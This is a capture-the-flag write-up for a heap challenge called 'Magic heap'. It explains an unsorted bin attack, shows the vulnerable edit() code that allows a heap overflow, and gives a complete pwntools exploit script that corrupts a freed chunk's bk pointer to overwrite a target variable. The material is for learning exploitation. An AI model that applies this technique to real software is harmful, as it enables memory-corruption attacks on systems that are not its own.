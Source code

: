 ## Magic heap  
This is the practice of **Unsorted bin attack**.  
I have change **fd** to make fastbin corruption in before, this time I will change **bk** of unsorted bin to make unsorted bin attack!  
[Want to know what is unsorted bin attack?](https://github.com/shinmao/WhyNot-HEAP-Exploitation/tree/master/Unsorted-Bin-Attack)  
  
### Vulnerability  
```C
if(heaparray[idx]){
		printf("Size of Heap : ");
		read(0,buf,8);
		size = atoi(buf);
		printf("Content of heap : ");
		read_input(heaparray[idx] ,size);
```  
The edit() function of program can help us make a heap overflow.  
  
### Ideas  
1. Free the second chunk.  
2. Edit the first chunk to overflow and change the bk of second chunk to **target - 0x10**.  
In this step, we need to be careful to remain the size of second chunk, or there will be an size error when **unlink** check the prev_size.
3. Now, here is the most interesting part in Unsorted bin attack.
The unlink for unsorted bin will not check the double linked list.
Besides, the last one of bin will become the **victim**, and fd of **bck** will become where your next malloc()!!  
4. Then, you can make the magic bigger :love:  

### Payload  
```python
#!/usr/bin/env python
from pwn import *

DEBUG = 1
if DEBUG:
    r = process('./magicheap-033333be91a77ff2041c2b3f7d5906007ef132e3')
else:
    r = remote('csie.ctf.tw',10144)

e = ELF('./magicheap-033333be91a77ff2041c2b3f7d5906007ef132e3')
l = ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')

def allocate(size,data):
    r.recvuntil(':')
    r.sendline('1')
    r.recvuntil(':')
    r.send(str(size)+'\n')
    r.recvuntil(':')
    r.send(data)

def edit(idx,size,data):
    r.recvuntil(':')
    r.sendline('2')
    r.recvuntil(':')
    r.send(str(idx)+'\n')
    r.recvuntil(':')
    r.send(str(size)+'\n')
    r.recvuntil(':')
    r.send(data+'\n')

def free(idx):
    r.recvuntil(':')
    r.sendline('3')
    r.recvuntil(':')
    r.send(str(idx)+'\n')


magic = 0x6020c0
allocate(0x30,'ddaa')   #0
allocate(0x160,'ddaa')   #1
allocate(0x30,'ddaa')    #2

free(1)
edit(0,0x50,'a'*0x30 + p64(0x0) + p64(0x170) + p64(0x666666) + p64(0x6020c0 - 0x10))

allocate(0x160,'ddaa')

r.recvuntil(':')
r.sendline('4869')

r.interactive()
```

